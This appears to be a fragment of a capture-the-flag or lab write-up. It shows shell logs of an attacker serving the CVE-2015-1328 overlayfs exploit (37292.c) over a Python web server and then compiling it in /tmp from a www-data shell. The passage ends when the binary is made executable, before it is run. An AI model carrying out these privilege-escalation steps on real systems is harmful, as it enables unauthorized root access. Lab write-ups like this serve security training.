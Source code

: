 

```bash
:~# python3 -m http.server 6666
Serving HTTP on 0.0.0.0 port 6666 (http://0.0.0.0:6666/) ...
10.10.66.29 - - [10/May/2025 00:30:29] "GET /37292.c HTTP/1.1" 200 -
```

```bash
www-data@ubuntu:/tmp$ gcc 37292.c -o exploit
gcc 37292.c -o exploit
gcc: error trying to exec 'cc1': execvp: No such file or directory
www-data@ubuntu:/tmp$ echo $PATH
echo $PATH
/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin:.
www-data@ubuntu:/tmp$ whereis gcc
whereis gcc
gcc: /usr/bin/gcc /usr/lib/gcc /usr/bin/X11/gcc /usr/share/man/man1/gcc.1.gz
www-data@ubuntu:/tmp$ export PATH=$PATH:/usr/bin
export PATH=$PATH:/usr/bin
www-data@ubuntu:/tmp$ gcc 37292.c -o exploit
gcc 37292.c -o exploit
www-data@ubuntu:/tmp$ ls
ls
37292.c
exploit
fCsLl
www-data@ubuntu:/tmp$ chmod +x 37292.c
chmod +x 37292.c
www-data@ubuntu:/tmp$ ./37292.c
./37292.c
: No such file or directory
./37292.c: line 8: $'\r': command not found
./37292.c: line 9: $'*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*\r': command not found
./37292.c: line 10: CVE-2015-1328: command not found
./37292.c: line 11: overlayfs: command not found
./37292.c: line 12: $'\r': command not found
./37292.c: line 13: user@ubuntu-server-1504:~$: command not found
./37292.c: line 14: Linux: command not found
./37292.c: line 15: user@ubuntu-server-1504:~$: command not found
./37292.c: line 16: user@ubuntu-server-1504:~$: command not found
./37292.c: line 17: syntax error near unexpected token `('
'/37292.c: line 17: `uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),30(dip),46(plugdev)
www-data@ubuntu:/tmp$ ls
ls
37292.c
exploit
fCsLl
www-data@ubuntu:/tmp$ chmod +x 37292.c
chmod +x 37292.c
www-data@ubuntu:/tmp$ ls
ls
37292.c
exploit
fCsLl
www-data@ubuntu:/tmp$ 

www-data@ubuntu:/tmp$ chmod +x exploit
chmod +x exploit
www-data@ubuntu:/tmp$ ls
ls
37292.c
exploit
fCsLl
```
